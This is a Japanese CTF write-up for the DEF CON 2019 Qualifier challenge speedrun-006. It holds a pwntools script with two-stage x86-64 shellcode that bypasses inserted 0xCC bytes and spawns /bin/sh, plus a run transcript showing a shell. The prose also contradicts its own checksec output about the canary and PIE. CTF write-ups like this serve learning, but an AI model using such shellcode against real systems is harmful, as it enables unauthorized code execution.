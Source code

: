 # [pwn 5pts] speedrun-006 - DEF CON CTF 2019 Qualifier
64ビットでSSPやPIEは無効です。
```
$ checksec -f speedrun-006
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH	Symbols		FORTIFY	Fortified	Fortifiable  FILE
Full RELRO      Canary found      NX enabled    PIE enabled     No RPATH   No RUNPATH   75 Symbols     Yes	0		2	speedrun-006
```
シェルコードが入力できますが、ところどころ0xCCが挿入されます。
また、先頭には各種レジスタを0にする命令が付け足されます。
上手いことうごくシェルコードを書こうとしましたが面倒なので、*CTFで出題されたbabyshellのようにreadで新しいシェルコードを読み込んでやりましょう。
確かbabyshellで軽く説明した気がしますが、read(0,0,0)するとrcxにripを入れてくれるんでしたね。
ということで、syscallした後にrcxにreadすればシェルコードを上書きしてくれます。
```python
from pwn import *

#sock = remote("speedrun-006.quals2019.oooverflow.io", 31337)
sock = process("speedrun-006")

shellcode = asm("""
syscall
nop
nop
mov dl, 0xcc
mov rsi, rcx
mov dl, 0xcc
syscall
""", arch="amd64")
print(disasm(shellcode, arch='amd64'))
shellcode = shellcode.replace("\xcc", "")
shellcode += '\x90' * (0x1a - len(shellcode))

_ = raw_input()
sock.send(shellcode)

shellcode = '\x90' * 20
shellcode += asm("""
mov rsp, rcx
add rsp, 0xf00

xor rax, rax
mov rbx, 0xFF978CD091969DD1
neg rbx
push rbx
push rbx
push rsp
pop rdi
cdq
push rdx
push rdi
push rsp
pop rsi
mov al, 0x3b
syscall
""", arch="amd64")
sock.send(shellcode)

sock.interactive()
```

ほい。
```
$ python solve.py 
[!] Could not find executable 'speedrun-006' in $PATH, using './speedrun-006' instead
[+] Starting local process './speedrun-006': pid 5919
   0:   0f 05                   syscall 
   2:   90                      nop
   3:   90                      nop
   4:   b2 cc                   mov    dl,0xcc
   6:   48 89 ce                mov    rsi,rcx
   9:   b2 cc                   mov    dl,0xcc
   b:   0f 05                   syscall

[*] Switching to interactive mode
How good are you around the corners?
Send me your ride
$ id
uid=1000(ptr) gid=1000(ptr) groups=1000(ptr),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),116(lpadmin),126(sambashare),999(docker)
$ 
```

# 感想
シェルコード問題あきた。
